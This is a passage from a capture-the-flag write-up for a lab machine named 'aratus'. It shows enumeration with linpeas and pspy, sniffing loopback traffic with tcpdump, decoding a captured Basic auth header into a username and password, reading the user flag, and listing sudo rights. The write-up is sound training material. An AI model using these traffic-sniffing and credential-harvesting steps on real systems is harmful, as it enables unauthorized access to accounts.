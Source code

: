 We cannot access any of them, time to use `linpeas` then:

![](cybersecurity/images/Pasted%2520image%252020250607153801.png)

- `cap_net_admin`: Allow us to configure interfaces, firewalls, routing tables.
- `cap_net_raw`: Allow us socket usage (sniffing traffic, crafting packets).

Let's use `pspy` to check active processes, in there we may be able to find something to sniff:

![](cybersecurity/images/Pasted%2520image%252020250607154454.png)

As seen, there's a script running on here, let's use tcpdump to capture the traffic:

```
[simeon@aratus tmp]$ ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host
       valid_lft forever preferred_lft forever
2: ens5: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 9001 qdisc mq state UP group default qlen 1000
    link/ether 02:a4:f9:b5:08:95 brd ff:ff:ff:ff:ff:ff
    inet 10.10.128.188/16 brd 10.10.255.255 scope global noprefixroute dynamic ens5
       valid_lft 3055sec preferred_lft 3055sec
    inet6 fe80::d64c:22ad:2f8f:cc83/64 scope link noprefixroute
       valid_lft forever preferred_lft forever
```

We need to use `lo` interface:

```
tcpdump -i lo -A
```

![](cybersecurity/images/Pasted%2520image%252020250607154637.png)

We got `Authorization: Basic dGhlb2RvcmU6UmlqeWFzd2FoZWJjZWliYXJqaWs= `, let's decode it:

![](cybersecurity/images/Pasted%2520image%252020250607154713.png)

There we go, we found credentials:

```
theodore:Rijyaswahebceibarjik
```

![](cybersecurity/images/Pasted%2520image%252020250607154741.png)

```
[theodore@aratus ~]$ cat user.txt
THM{ba8d3b87bfdb9d10115cbe24feabbc20}
```

Let's check our privileges:

```
[theodore@aratus ~]$ sudo -l
Matching Defaults entries for theodore on aratus:
    !visiblepw, always_set_home, match_group_by_gid, always_query_group_plugin, env_reset,
    env_keep="COLORS DISPLAY HOSTNAME HISTSIZE KDEDIR LS_COLORS", env_keep+="MAIL PS1 PS2 QTDIR
    USERNAME LANG LC_ADDRESS LC_CTYPE", env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT
    LC_MESSAGES", env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE",
    env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY",
    secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

User theodore may run the following commands on aratus:
    (automation) NOPASSWD: /opt/scripts/infra_as_code.sh
```
